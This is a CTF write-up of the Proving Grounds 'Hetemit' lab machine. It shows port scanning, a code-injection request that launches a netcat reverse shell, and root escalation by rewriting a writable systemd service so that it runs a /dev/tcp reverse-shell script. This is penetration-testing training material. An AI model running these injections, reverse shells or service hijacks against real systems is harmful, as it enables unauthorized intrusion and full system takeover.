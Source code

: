 ```yaml
---
title: "Proving grounds Practice: Hetemit"
layout: post
date: 2024-03-27 02:00
categories: writeup
---
```


Proving grounds Practice - Hetemit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
```

## 21/tcp    open  ftp         vsftpd 3.0.3

anonymous login successfull
nothing...

## 139/tcp   open  netbios-ssn Samba smbd 4.6.2
## 445/tcp   open  netbios-ssn Samba smbd 4.6.2

```sh
naveenj@hackerspace:[06:54]~/proving_grounds/Hetemit$ smbclient -L //192.168.201.117/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Cmeeks          Disk      cmeeks Files
	IPC$            IPC       IPC Service (Samba 4.11.2)
Reconnecting with SMB1 for workgroup listing.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

## 50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

- http://192.168.201.117:50000/verify

```sh
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=4*4" http://192.168.201.117:50000/verify
16
```
Vulnerable to command injection

```sh
#inject reverse shell
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=os.system('nc -e /bin/bash 192.168.45.218 80')" http://192.168.201.117:50000/verify
# netcat listening
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 50652
which python
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
[cmeeks@hetemit restjson_hetemit]$ 
```

Initial foothold obtained.

## Privilege Escalation

### Linpeas Enumeration
```sh
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

/usr/sbin/suexec = cap_setgid,cap_setuid+ep

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/pythonapp.service
```

### Exploitation

Writing shell to file `/etc/systemd/system/pythonapp.service`.

**Original content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Modified Content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/run.sh #add reverse shell in the bash script
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**run.sh**

```sh
#!bin/bash

bash -c 'sh -i >& /dev/tcp/192.168.45.218/22 0>&1'
```

```sh
naveenj@hackerspace:[07:28]~/proving_grounds/Hetemit$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 39016
sh: cannot set terminal process group (989): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# 
```

**Root Obtained**

## References

- https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
- https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).